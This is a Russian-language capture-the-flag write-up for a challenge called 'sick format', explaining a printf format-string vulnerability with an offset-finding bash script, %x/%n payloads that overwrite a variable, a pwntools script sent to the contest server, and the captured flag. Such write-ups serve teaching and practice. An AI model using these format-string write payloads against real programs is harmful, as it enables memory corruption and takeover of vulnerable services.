 # sick format writeup

Нам дан код на C и скомпилированный ELF-файл. Изучив код можно понять, что уязвимость заложена в функцию printf(), она связана с форматированием строки. Простыми словами, будем передавать ей аргументы, которых нет - таким образом программа будет вычитывать стэк.

###  Ищем пэйлоад

Будем передавать строку нашей программе таким образом `python -c "print 'AAAA' + '%x.'*OFFSET + '%x'" | ./sick_format` постоянно меняя OFFSET. Чтобы не делать это руками - напишем простой скрипт на bash:

```bash
offset_finder.sh

#!/bin/bash

for ((test=0; test<=30; test++)); do
    output=$(python -c "print 'AAAA' + '%x.'*$test + '%x'" | ./sick_format | grep "41414141")
    if [ -n "$output" ]; then
        echo "Найдена строка '41414141' для теста $test"
	echo "$output"
    fi
done
```

Теперь узнаем адрес нашей переменной `changeme`, которую нужно поменять для получения флага, а именно сделать ее равной 228.

В консоли отправляем следующий пэйлоад, в котором уже указан адрес нужной переменной:

`python -c "print '\x08\x04\xa0\x4c'[::-1] + '%x.'*6 + '%n'" | ./sick_format`

Рядом со строкой `No way...` появилось число, этло значение changeme. 

Теперь считаем, сколько нужно добавить до 228 и модифицируем пэйлоад:

`python -c "print '\x08\x04\xa0\x4c'[::-1] + '%x.'*5 + '%28d' + '%n'" | ./sick_format`

Отлично, все работает, теперь сделаем то же самое на сервере, где запущен настоящий файл.

Пишем скрипт:

```python
from pwn import *

conn = remote('IP', PORT)

payload = '\x08\x04\xa0\x4c'[::-1] + '%x.'*5 + '%28d' + '%n'

conn.sendline(payload)
print(conn.recv()) 
print(conn.recv())
```

Запускаем и получаем флаг **kxctf{f0rm4t1ng_str1ng_1s_aw3s0me_bruh_1m_pr0ud_0f_u_ma_b0y_<3}**


